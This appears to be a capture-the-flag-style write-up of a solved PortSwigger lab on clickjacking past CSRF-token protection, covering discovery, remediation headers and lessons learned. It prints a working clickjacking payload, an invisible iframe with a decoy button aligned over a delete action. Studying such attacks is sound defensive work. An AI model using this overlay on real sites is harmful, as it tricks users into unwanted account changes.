



# LAB 01 - Basic clickjacking with CSRF token protection

## Lab Information

- **Category:** Click Jacking
- **Type:** CSRF Token
- **Difficulty:** APPRENTICE
- **Status:** ✅ Solved
- **Date:** 2026-9-19

---


---

# Table of Contents

- Executive Summary
- Lab Information
- Objective
- Vulnerability Overview
- Attack Prerequisites
- Environment & Scope
- Methodology
- Discovery Process
- Technical Analysis
- Payload Analysis
- Exploitation Flow
- Evidence
- Impact
- Root Cause
- Risk Assessment
- Remediation
- Lessons Learned
- References
- Screenshots

---

# Executive Summary

A "Clickjacking" vulnerability was discovered in the email deletion function. Upon capturing the request with Burp Suite and re-sending it via the Repeater to analyze the response, no Clickjacking protections such as `X-Frame-Options` or `Content-Security-Policy` were observed. This allowed the page to be embedded within an `<iframe>` element with zero opacity; a button was then positioned over the actual email deletion button using a `<div>` element. Consequently, the victim would see only the button we created, and clicking it would result in the deletion of their account.

---

# Objective

The goal of this lab is to demonstrate how an attacker can embed the target page within a frame, place a button over the "Delete Email" function, and set the target page's opacity to zero so the victim cannot see where they are clicking.

---

# Vulnerability Overview

A clickjacking vulnerability occurs when an attacker tricks a victim into believing they are clicking on an element on a specific page, while the click is actually registered on a different site all in the absence of any protective mechanisms against such attacks.

---


# Attack Requirements

1. Ability to embed the site within a frame.
2. The ability to control transparency and positioning via CSS.
3. Presence of a sensitive single-click action (Action-Based Page).

---

# Environment & Scope

| Item | Value |
|------|-------|
| Target | PortSwigger Web Security Academy lab |
| Primary Endpoint | `/my-account/change-email` |
| Primary HTTP Method | POST |
| Primary Parameter | `Delete email` |
| CSRF Parameter | `csrf` |
| Authentication | Session cookie |
| Attack Platform | Exploit Server |
| Attack Vector | Cross-site HTML |

---

# Methodology

1. Open the vulnerable lab and log in to the application.
2. Log in using the provided credentials and capture the original request using Burp Suite.
3. Send the request to receive a response from the server.
4. Verify the absence of clickjacking protection mechanisms, such as `X-Frame-Options` or `Content-Security-Policy`.
5. Embed the target page within a frame using the `<iframe>` element.
6. Create a button using a `<div>` element and position it over the "Delete Email" button on the target page.
7. Host the malicious page on the exploit server.
8. Deliver the exploit to the victim and verify the success of the exploit.
    
---

# Discovery Process

### Step 1 — Capture login request

```text
GET /my-account?id=wiener HTTP/2
HOST: XXXXXXXXXX web-security-academy.net
Cookie: session=XXXXXXXXX
```

The request displays the username "wiener" along with the session data; we use the Repeater to resend the same request and obtain the server's response for analysis.

### Step 2 — Reviewing the response

```text
HTTP/2 200 OK
Content-Type text/html; charset-utf-8
Cache-control:no-cache
Content-Length: 6654
```
Upon examining the response, we observe the absence of any protection mechanism against clickjacking vulnerabilities, such as `X-Frame-Options` or `Content-Security-Policy`.

---

# Payload Analysis

## Payload Used

```html
<style>
    iframe {
        position: absolute;
        top: 0;
        left: 0;
        width: 1000px;
        height: 700px;
        opacity: 0;
        z-index: 2;
        border: none;
    }

    .fake-button {
        position: absolute;
        top: 510px;
        left: 70px;
        z-index: 1;
    }
</style>

<button class="fake-button">
    Click Here
</button>

<iframe src="https://LAB-ID.web-security-academy.net/my-account?id=wiener"></iframe>
```

## Why This Payload Works

```html
<style>
    iframe {
        position: absolute;
        top: 0;
        left: 0;
        width: 1000px;
        height: 700px;
        opacity: 0;
        z-index: 2;
        border: none;
    }

```
Specific to the frame's formatting ranging from its height, distance from the left, transparency, and stacking order to its length, width, positioning, and edges.

```html
.fake-button {
        position: absolute;
        top: 510px;
        left: 70px;
        z-index: 1;
    }
</style>
```
This section deals with styling the button that will appear above the email deletion button; here, we adjust its height, left spacing, positioning, and arrangement.

```html
<button class="fake-button">
    Click Here
</button>
```
This part deals with creating the dummy button and the text within it.

```html
<iframe src="https://LAB-ID.web-security-academy.net/my-account?id=wiener"></iframe>
```
This part deals with creating the frame and embedding the target page within it using the `src` attribute.

---

# Exploitation Flow

```text
                         Attacker      
                            │ 
                            ▼
                 Target Identification 
                            │
                            ▼
                  Crafting the Decoy Page 
                            │
                            ▼
                  Alignment and Opacity
                            │
                            ▼
                  Delivery and Execution
                            │
                            ▼
                       Email Deleted
                           ✅
          
  
```

---

# Impact

1. Account Takeover: Triggering changes to account settings, such as modifying the password or email address.
2. Unauthorized Financial Transactions: Tricking the user into transferring funds or making purchases unintentionally.
3. Granting Critical Permissions: Allowing third-party applications or malicious actors to access user data, the camera, or the microphone. 
4. Publishing Malicious Content: Forcing interactions with posts or artificially boosting "likes" for specific social media pages on the victim's behalf.
5. Downloading Malware: Deceiving the user into downloading malicious files by clicking on deceptive links hidden behind fake interfaces.

---

# Root Cause

The root cause is the absence of protection mechanisms—such as `X-Frame-Options` or `Content-Security-Policy`—that prevent the target page from being embedded within a frame. This allows an attacker to embed a page containing a sensitive action and completely hide it by manipulating the page's opacity and overlaying a button on top of the button for that sensitive action.

---

# Risk Assessment

| Item | Value |
|------|-------|
| Severity |  Medium |
| CVSS Score | Not calculated |
| CWE | CWE-1021: Improper Restriction of Rendered Page Layers or Frames |
| OWASP Reference | OWASP CSRF Prevention Guidance |
| Exploitability | Demonstrated in lab |
| Business Impact | Unauthorized account/email modification; potential account takeover depending on account recovery functionality |

---

# Remediation

- **Using Content Security Policy (CSP), specifically the `frame-ancestors` directive**
  - This is considered the primary and most flexible line of defense in modern browsers.
  - It controls which sites are permitted to embed your pages: to completely prevent embedding: `Content-Security-Policy: frame-ancestors        'none';`; to allow only your own site to embed: `Content-Security-Policy: frame-ancestors 'self';`; to allow specific, trusted sites:         `Content-Security-Policy: frame-ancestors 'self' https://trusted-site.com;`.

- **Enable X-Frame-Options security header**
  - Although modern browsers favor CSP, using this header ensures protection for older browsers (backward compatibility): X-Frame-Options:         DENY (to prevent any framing) or X-Frame-Options: SAMEORIGIN (to allow only your own site).
    
- **Securing cookies via the SameSite attribute**
  - Set sensitive cookies (such as login sessions) to `SameSite=Lax` or `SameSite=Strict`. This prevents the browser from automatically           sending user cookies when your site is loaded within an iframe on an attacker's site, thereby neutralizing the attack.
    
---

# Lessons Learned

- Ineffectiveness of CSRF protection: The CSRF token does not protect the site against clickjacking, because the browser automatically and      entirely legitimately sends the token and session cookies while the user interacts with the hidden frame.
- UI Redressing Mechanism: The attack relies on layering two elements using CSS; the target website is rendered completely invisible via the    opacity property (`opacity: 0`), while deceptive buttons are placed over it to entice the victim into clicking.
- The Importance of Element Alignment: The technical success of the attack relies on precision in using positioning properties (such as         `top`, `left`, and `z-index`) to align the hidden, sensitive buttons with the visible, decoy buttons.
- Absence of basic browser defenses: The lab demonstrates that the site is vulnerable due to the lack of security headers that prevent          framing such as the `X-Frame-Options` header or the Content Security Policy (CSP), specifically the `frame-ancestors` directive.
- Severity of Impact: The attack demonstrates the potential to force a user into taking critical, irreversible actions (such as permanently      deleting their account) with a single unintentional click.

---

# References

- PortSwigger Web Security Academy — Click Jacking
- OWASP — Click Jacking Prevention Cheat Sheet
- Mozilla Developer Network (MDN Web Docs)
- FIRST — CVSS Specification

---

# Screenshots

## Request and Response


...

## View exploit



...

## Payload



...


## Successful 



---

# Conclusion

This practical assessment revealed a "Clickjacking" vulnerability affecting a critical action: account deletion.

In the absence of defensive mechanisms against this vulnerability—such as `X-Frame-Options` or `Content-Security-Policy`—an attacker can embed the target page (which contains the sensitive account-deletion action) within an `<iframe>`. By setting the frame's opacity to zero, the attacker makes it difficult for the victim to see what they are clicking on; then, by positioning a `<div>` element over the account-deletion button, the attacker tricks the victim into clicking it.

The key aspect is that protection against clickjacking attacks requires the use of Content Security Policy (CSP)—specifically the `frame-ancestors` directive—enabling the `X-Frame-Options` security header, and securing cookies via the `SameSite` attribute.

The lesson learned here is that the CSRF token does not protect the page against clickjacking attacks.
